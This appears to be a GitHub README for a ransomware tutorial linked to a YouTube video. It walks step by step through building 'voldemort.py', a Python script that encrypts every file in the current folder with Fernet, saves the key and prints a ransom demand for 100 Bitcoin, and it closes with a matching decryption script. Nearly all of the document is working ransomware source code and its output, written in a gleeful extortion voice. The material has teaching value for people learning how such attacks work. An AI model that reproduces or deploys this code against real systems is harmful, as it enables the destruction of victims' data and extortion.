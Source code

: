 # Ransomware

This is an example application featured in NetworkChuck's <a href="https://youtu.be/UtMMjXOlRQc">Python Malware Tutorial</a>.

### Instructions

**Step 1:**
Make a folder called ``ransomware`` and create a few random ``.txt`` files with some silly phrases in them:

<pre>
<code>$ mkdir ransomware
$ cd ransomware
$ echo "This is a file" > file.txt
$ echo "Leave me alone" > file2.txt
$ echo "Another one" > hey.txt
$ echo "One more time" > pleasedonthurtme.txt</code>
</pre>

Now let's hold these files for ransom! Let's encrypt those suckers right now! Here we go:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Write this code in the following ``voldemort.py`` file:

<details>
<summary>💰 How to Hold These Files for Ransom:</summary>

```python
#!/usr/bin/env python3
import os

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

```
</details>

When you first run ``voldemort.py`` in your terminal, you should see the following output:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']</code>
</pre>

**Step 2:**
Now let's encrypt those files! Start it off by running the following command:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Add more code to ``voldemort.py``:

<details>
<summary>🔒 How to Encrypt These Files:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

key = Fernet.generate_key()

print(key)

```
</details>

When you next run ``voldemort.py``, you should see the following output for your key:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']
b'8QVEe4MBoSLINxTpyOExsqrL5XiOks5g1_w-xF-OAmk='</code>
</pre>

**Step 3:**
Obviously, we don't want to print our key right out there in the open where the user can see it. We want the user to give us money, but we do need to save the key into another file for safety so we can unlock the files later *after* we get paid 😉:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Add more code to ``voldemort.py``:

<details>
<summary>🔑 How to Save the Key:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

key = Fernet.generate_key()

with open("thekey.key", "wb") as thekey:
    thekey.write(key)

```
</details>

Run ``voldemort.py`` and you should see the following output:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']</code>
</pre>

Wait, where is ``thekey.key``? Don't worry! It is still hidden and we can finally view it by entering the following commands:

<pre>
<code>$ ls
file.txt             hey.txt              thekey.key
file2.txt            pleasedonthurtme.txt voldemort.py
$ cat thekey.key
se_by38p9NVVsWezjKWbKgdztEl1GhHZsbMwcGqei84=%</code>
</pre>

**Step 4:**
Now this is where things start to get interesting. We will be pushing our ``thekey.key`` file into the code for our ``voldemort.py`` file so that all the other files will be encrypted. In other words, the poor user can now only see those files as gibberish:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Add the following code to ``voldemort.py``:

<details>
<summary>👁️👄👁️ How to Make These Files Come Out as Garble:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py" or file == "thekey.key":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

key = Fernet.generate_key()

with open("thekey.key", "wb") as thekey:
    thekey.write(key)

for file in files:
    with open(file, "rb") as thefile:
        contents = thefile.read()
    contents_encrypted = Fernet(key).encrypt(contents)
    with open(file, "wb") as thefile:
        thefile.write(contents_encrypted)

print(
    "UH OH!! All of your files have been encrypted! Send me 100 Bitcoin "
    "or they will be gone in 24 hours FOREVER!!! ☠️☠️☠️☠️☠️☠️☠️☠️☠️☠️"
)

```
</details>

Make one quick goodbye to each ``.txt`` file before they get encrypted by your mom:

<pre>
<code>$ cat file.txt
This is a file
$ cat file2.txt
Leave me alone
$ cat hey.txt
Another one
$ cat pleasedonthurtme.txt
One more time</code>
</pre>

Run ``voldemort.py`` and you should see the following output:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']
UH OH!! All of your files have been encrypted! Send me 100 Bitcoin or they will be gone in 24 hours FOREVER!!! ☠️☠️☠️☠️☠️☠️☠️☠️☠️☠️</code>
</pre>

This is the moment we've all been waiting for. Now all these ``.txt`` files have been left in ruins 😈:

<pre>
<code>$ cat file.txt
gAAAAABo9_vsmrW0ocPft7966tBWfmDGPGuULoBZLck3RAbj2MPsLUWLoErkInZD5hWc4MVuuBzs99_EzxOvVCckm1kSqq27hhhO0Atscgp6N4Y73BcN6nIJ9hV0Lf6TcccX0b4NQxdOHP0vFXQ4wHA8eipTaASBhfl_02kekjYlbtDo5fOhWPnO8mDwYHcrxrblkOQwmvhm9_kwUKShDc4Ign2bk1D72A==%
$ cat file2.txt
gAAAAABo9_vsnw_nYyQ_29Z-Ol9W322Qf6hScuHtGS6YgB8A1mik3dlDoKi11PrfFGDIoDr22ddLw-yeT3D-dulUuvQBz-t0LB02vJhdmjJFBgLUCYl0FajFaIyYXb31dkrUlYLoSuG7FPchBeT4EG6-1lllQFbV9QBQlKsPXNZOLU6j551Q54Kg4XhpHPTEuym02dZaC0YOIn7B5hFFj8EtROpXKqqDHw==%
$ cat hey.txt
gAAAAABo9_vsLnZX08uVJR-veRrK-SNBhBLB3oLAhxl850VmOYnSGTkjLoPmHzNGKmjbZNBcOMMUUxLUKpN50_XdErY_C-TmzgMD_O6pzhllzdzZ-kYL8zKEgDI7VSAsSTsRkY12-kNpcLuQnvQz_7KDCqFXE6N-605rrYo0tQr2gd5RIp2_IoyHJBWT1etHcMSjkJ3u8IXLhcf3_h6-9RHkMlRTFkxFFQ==%
$ cat pleasedonthurtme.txt
gAAAAABo9_vsBkcYTvBVAh46_xe24bRQtPJLbmbZj2RQhzY6XFW5NtPQZukDfkAkzyH-KDu5rrnAhd1dZjGKjtNM7VR3U_DZs8-FtHKCU2MbjfpTeA59CJel17U577amMDzeiJV5RWF0L4CTXBwR1a8_4TRdTKNReT7DP4nzIc73iprGF9qqjQbPOJJmBVofby7mbYmRJCC9F53KMvd-NM9xFhyfu-q8uA==%</code>
</pre>

Fortunately for us hackers, we have a new ``thekey.key`` and that is the key to unlocking these files:

<pre>
<code>$ cat thekey.key
uGb51hGWiq-3FEslUhjYNDn2HBWs8JXl-X1RHUqiiSw=%</code>
</pre>

**Step 5:**
Now we can unlock all these files once and for all by writing a ``decrypt.py`` file. Luckily, it is already very similar to the ``voldemort.py`` (AKA the *encrypt.py* file):

<pre>
<code>$ cp voldemort.py decrypt.py
$ nano decrypt.py</code>
</pre>

Add the following code to the ``decrypt.py`` file:

<details>
<summary>🔑 How to Decrypt the Files:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py" or file == "thekey.key" or file == "decrypt.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

with open("thekey.key", "rb") as key:
    secret_key = key.read()

for file in files:
    with open(file, "rb") as thefile:
        contents = thefile.read()
    contents_decrypted = Fernet(secret_key).decrypt(contents)
    with open(file, "wb") as thefile:
        thefile.write(contents_decrypted)

```
</details>

Run ``decrypt.py`` and you should see the following output:

<pre>
<code>$ python decrypt.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']</code>
</pre>

Now you can see that all of the files have finally been decrypted!!!

<pre>
<code>$ cat file.txt
This is a file
$ cat file2.txt
Leave me alone
$ cat hey.txt
Another one
$ cat pleasedonthurtme.txt
One more time</code>
</pre>

